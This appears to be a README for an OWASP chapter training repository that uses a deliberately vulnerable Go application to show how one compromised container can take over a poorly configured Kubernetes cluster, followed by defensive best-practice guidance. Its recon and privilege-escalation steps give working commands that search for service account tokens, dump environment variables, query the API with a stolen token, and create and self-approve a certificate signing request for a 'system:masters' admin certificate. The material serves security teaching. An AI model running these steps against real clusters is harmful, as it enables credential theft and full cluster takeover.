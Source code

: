 #  Welcome!

First and foremost, Welcome! :tada::confetti_ball:

Thank you for visiting the go-rce-kubernetes project repository. :balloon::balloon::balloon:

This document (the README file) is a hub to give you some information about the project. Jump straight to one of the sections below, or just scroll down to find out more.

* [What are we doing? (And why?)](#what-are-we-doing)
* [Who are we?](#who-are-we)
* [How to use this repostory](#getting-started)
* [Get in touch](#contact-us)
* [Find out more](#general-security-guidance)


## What are we doing?

The intent of this repository is to take a closer look at some of the security pitfals that maybe encoutered when deploying containerize applications in kubernetes. This project uses poorly writen go application to demonstrate how a single vulnerable application can compromise a poorly configured kubernetes cluster. 


## Who are we?

The new OWASP waterloo chapter leads and security enthustists
* Scott Handfield
* Kristopher Jamison
* Dale Babiy
* Deepak Sharma


# Getting started

## Pre-requisites 
This project assumes you have access to a running kubernetes cluster 

## Build and run 
The following steps outline building and running the simulations: 
1. Clone the repo 
```
git clone github.com/handfields/go-rce-kubernetes
```
2. Build the vulnerable go-rce contianer (Optional - containers are also available on dockerhub)
```
cd go-rce-kubernetes && docker build . 
```
3. Deploy 
4. Exploit 
 - The go-rce applicaion takes untrusted data from users as command line arguments and 
5. Recon
 - what information can you find that might be useful for lateral movement and/or persistence in the cluster? 
 - service account tokens? 
    ```
    find / -name '*token'
    ```
 - sensitive environment variables? 
   ```
   env
   ``` 
 - explore ..
    ```
    ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server='https://kubernetes.default.svc.cluster.local' get pods
    ```

6. Elevate permissions 

Generate and sign client certificate with elevated permissions
```
curl -Lo cfssl https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssl_1.5.0_linux_amd64 && chmod 700 cfssl 
curl -Lo cfssljson https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssljson_1.5.0_linux_amd64 && chmod 700 cfssljson

cat <<EOF | ./cfssl genkey - | ./cfssljson -bare server
{
  "CN": "admin",
  "names": [
      {
        "O": "system:masters"
      }
  ],
  "key": {
    "algo": "rsa",
    "size": 2048
  }
}
EOF

cat <<EOF | ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt apply -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: nothing-to-see-here
spec:
  signerName: kubernetes.io/legacy-unknown
  request: $(cat server.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF

./kubectl certificate approve nothing-to-see-here

./kubectl get csr nothing-to-see-here -o jsonpath='{.status.certificate}' | base64 -d | tee server.crt 
```

7. Perform lateral movement

8. Add security policies 

9. Update deployment 


# General secuirty guidance 
This section introduces some general best practice guildlines for operating secure containerize workloads 

### Build secure images 
    - Use slim and minimal base images, where possible 
    - Use multi-stage builds to avoid adding unnessisary binaries, libraries, files, etc. 
    - Scan images and applications for secuirty vulernabilities 

### Ensure binary authorization
    - Restrict access to container registries and use only verified images (ie. Cryptographically signed images, OPA policies, etc. )

### Remove unnessisary capabilities 
    - Ensure securityContext is applied to ensure pods are running as non-root, with appropriate capabilities and read-only filesystems where possible.  

### Apply least privledge access 
    - Apply RBAC policy and limit access to service accounts 

### Take caution with senstive mount points
    - Avoid mounting service account tokens and 'hostpath', especially for pods that are exposed to lower environments (ie. internet facing, accessible form uat, dev, etc..)

### Segment, Segment and Segment 
    - Namespaces
        - Use namespaces to logically group workloads but do not assume namespaces provide sufficient workload isolation. 
    - Network policies
    - Service mesh 
    - Secure control plane 

### Monitor
    - Continuously scan host, images and running containers for vulnerabilities and configuration issues 
    - Ensure logs are being shipped and analyzed for security issues

### Additional guidance, helpful tools and resources 
https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html 
https://github.com/OWASP/Docker-Security 
https://www.nist.gov/publications/application-container-security-guide 
https://github.com/open-policy-agent/
https://github.com/ManicodeSecurity/Defending-DevOps 
https://github.com/ksoclabs/kube-goat 
https://github.com/aquasecurity
https://github.com/falcosecurity/falco
https://github.com/cyberark/KubiScan
https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/
https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/
https://github.com/trailofbits/audit-kubernetes/tree/master/reports
